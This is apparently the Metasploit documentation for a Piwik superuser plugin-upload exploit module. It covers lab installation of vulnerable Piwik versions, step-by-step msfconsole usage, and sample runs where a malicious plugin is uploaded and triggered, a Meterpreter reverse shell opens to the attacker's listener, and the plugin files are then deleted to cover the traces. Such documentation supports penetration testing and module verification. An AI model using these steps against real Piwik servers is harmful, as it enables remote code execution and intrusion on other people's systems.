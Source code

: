 ## Vulnerable Application

Piwik can be downloaded from the official site [piwik.org](https://piwik.org).
Older builds are also available from [builds.piwik.org](https://builds.piwik.org/).

This module was tested with Piwik versions 2.14.0, 2.16.0, 2.17.1 and 3.0.1

Piwik disabled custom plugin uploads in version 3.0.3. From version 3.0.3 onwards you have to enable custom plugin uploads via the config file.

## Verification Steps

### Install Piwik (Debian/Ubuntu)
1. Install dependencies

    ```
    sudo apt install apache2 php5 php5-mysql \
      libapache2-mod-php5 mariadb-server unzip php5-gd php5-curl
    ```
2. Download latest version of piwik (or the version of your choice from [builds.piwik.org](https://builds.piwik.org/))

    ```
    wget https://builds.piwik.org/piwik.zip
    ```

3. Unzip Piwik into webroot

    ```
    unzip -d /var/www/html/ piwik.zip
    ```

4. Make the webserver user the owner of piwik

    ```
    chown -R www-data:www-data /var/www/html/
    ```

5. Create a new user and database for piwik. If you want to run multiple versions in parallel use a different database for each install (user is optional).
This example assumes your MySQL root password is **password**

    ```
    mysql -u root -ppassword -e "CREATE DATABASE piwik;"
    mysql -u root -ppassword -e "CREATE USER piwik@localhost;"
    mysql -u root -ppassword -e "SET PASSWORD FOR piwik@localhost=PASSWORD('piwik');"
    mysql -u root -ppassword -e "GRANT ALL PRIVILEGES ON piwik.* TO piwik@localhost;"
    mysql -u root -ppassword -e "FLUSH PRIVILEGES;"
    ```

6. Add a config setting to PHP to stop piwik complaining about it

    ```
    echo always_populate_raw_post_data=-1 > /etc/php5/apache2/conf.d/99-piwik.ini
    ```

7. Finally restart Apache HTTPD

    ```
    service apache2 restart
    ```

### Pwn Piwik
1. Install the application (see installation steps above)
2. Start msfconsole
3. Do: ```use [module path]```
4. Do: ```set RHOST [Domain/IP]```
5. Do: ```set RPORT [Port]```
6. Do: ```set TARGETURI [installation directory]```
7. Do: ```set SSL [True/False]```
8. Do: ```set USERNAME [valid Piwik superuser credentials]```
9. Do: ```set PASSWORD [valid Piwik superuser credentials]```
10. Do: ```run```
11. You should get a shell.

## Options

### TARGETURI

Path of the Piwik installation.

### USERNAME

Valid username for a Piwik superuser account.

### PASSWORD

Valid password for a Piwik superuser account.

## Scenarios

### Run with a installation of Piwik 3.0.1

```
msf > use exploit/unix/webapp/piwik_superuser_plugin_upload
msf exploit(piwik_superuser_plugin_upload) > set TARGETURI /piwik/
TARGETURI => /piwik/
msf exploit(piwik_superuser_plugin_upload) > set RHOST 192.168.56.2
RHOST => 192.168.56.2
msf exploit(piwik_superuser_plugin_upload) > set username firefart
username => firefart
msf exploit(piwik_superuser_plugin_upload) > set password firefart
password => firefart
msf exploit(piwik_superuser_plugin_upload) > options

Module options (exploit/unix/webapp/piwik_superuser_plugin_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   firefart         yes       The Piwik password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.56.2     yes       The target address
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /piwik/          yes       The URI path of the Piwik installation
   USERNAME   firefart         yes       The Piwik username to authenticate with
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Piwik

msf exploit(piwik_superuser_plugin_upload) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Trying to detect if target is running a supported version of piwik
[+] Detected Piwik installation
[*] Authenticating with Piwik using firefart:firefart...
[+] Authenticated with Piwik
[*] Checking if user firefart has superuser access
[+] User firefart has superuser access
[*] Trying to get Piwik version
[+] Detected Piwik version 3.0.1
[*] Checking if Marketplace plugin is active
[+] Seems like the Marketplace plugin is already enabled
[*] Generating plugin
[+] Plugin SDsiXxPMgt generated
[*] Uploading plugin
[*] Activating plugin and triggering payload
[*] Sending stage (33986 bytes) to 192.168.56.2
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.2:43169) at 2017-02-13 23:03:29 +0100
[+] Deleted plugins/SDsiXxPMgt/plugin.json
[+] Deleted plugins/SDsiXxPMgt/SDsiXxPMgt.php

meterpreter > sysinfo
Computer    : web
OS          : Linux web 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1 (2016-12-30) x86_64
Meterpreter : php/linux
```

### Run against Piwik 2.x

```
msf exploit(piwik_superuser_plugin_upload) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Trying to detect if target is running a supported version of piwik
[+] Detected Piwik installation
[*] Authenticating with Piwik using firefart:firefart...
[+] Authenticated with Piwik
[*] Checking if user firefart has superuser access
[+] User firefart has superuser access
[*] Trying to get Piwik version
[+] Detected Piwik version 2.14.0
[*] Generating plugin
[+] Plugin zZETuwYkzB generated
[*] Uploading plugin
[*] Activating plugin and triggering payload
[*] Sending stage (33986 bytes) to 192.168.56.2
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.2:43182) at 2017-02-13 23:05:27 +0100
[+] Deleted plugins/zZETuwYkzB/plugin.json
[+] Deleted plugins/zZETuwYkzB/zZETuwYkzB.php
```

### Sample output of running with invalid credentials

```
msf exploit(piwik_superuser_plugin_upload) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Trying to detect if target is running a supported version of piwik
[+] Detected Piwik installation
[*] Authenticating with Piwik using firefart:test...
[-] Exploit aborted due to failure: no-access: Failed to authenticate with Piwik
[*] Exploit completed, but no session was created.
```

### Sample output of running with non superuser user

```
msf exploit(piwik_superuser_plugin_upload) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Trying to detect if target is running a supported version of piwik
[+] Detected Piwik installation
[*] Authenticating with Piwik using test:firefart...
[+] Authenticated with Piwik
[*] Checking if user test has superuser access
[-] Exploit aborted due to failure: no-access: Looks like user test has no superuser access
[*] Exploit completed, but no session was created.
```

### Sample output of Piwik 3.x with disabled Marketplace plugin

```
msf exploit(piwik_superuser_plugin_upload) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Trying to detect if target is running a supported version of piwik
[+] Detected Piwik installation
[*] Authenticating with Piwik using firefart:firefart...
[+] Authenticated with Piwik
[*] Checking if user firefart has superuser access
[+] User firefart has superuser access
[*] Trying to get Piwik version
[+] Detected Piwik version 3.0.1
[*] Checking if Marketplace plugin is active
[*] Marketplace plugin is not enabled, trying to enable it
[+] Marketplace plugin enabled
[*] Generating plugin
[+] Plugin TuwgJygjEu generated
[*] Uploading plugin
[*] Activating plugin and triggering payload
[*] Sending stage (33986 bytes) to 192.168.56.2
[*] Meterpreter session 3 opened (192.168.56.1:4444 -> 192.168.56.2:43246) at 2017-02-13 23:08:36 +0100
[+] Deleted plugins/TuwgJygjEu/plugin.json
[+] Deleted plugins/TuwgJygjEu/TuwgJygjEu.php
```
